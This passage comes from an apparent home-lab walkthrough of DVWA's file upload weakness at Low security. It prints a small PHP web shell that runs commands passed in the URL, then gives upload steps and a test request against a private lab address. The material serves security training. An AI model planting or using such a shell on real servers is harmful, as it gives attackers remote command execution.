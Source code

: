 #### Exploitation Steps

1. **Create a Simple PHP Shell**  
   ```php
   <?php
   echo "Shell is live! I Have Successfully set up a shell";
   system($_GET['cmd']);
   ?>
   ```
   Save it as `shell.php`.

2. **Upload**  
   - Go to the **File Upload** page, click **Choose File**, select `test.php`, then **Upload**.
   - If successful, DVWA will tell I where the file is uploaded, e.g.:  
     `http://192.168.60.128/hackable/uploads/test.php`

![upload example](/assets/img/Home%20Lab/DVWA/DVWA%20Low/file-upload-dvwa-low.png)

3. **Test the Shell**  
   - Visit:
     ```
     http://192.168.60.128/hackable/uploads/test.php?cmd=echo%20"I%20have%20successfully%20set%20up%20a%20shell"
     ```
   - 

![shell output example](/assets/img/Home%20Lab/DVWA/DVWA%20Low/shelloutput-dvwa.png)

**Thought Process**  
- At **Low** level, DVWA doesn’t prevent `.php` uploads or sanitize the file name.
- The goal is to confirm the file is executed by the server rather than just stored.

---

### 6. Insecure CAPTCHA

**Location**: `Insecure CAPTCHA` in the left menu.
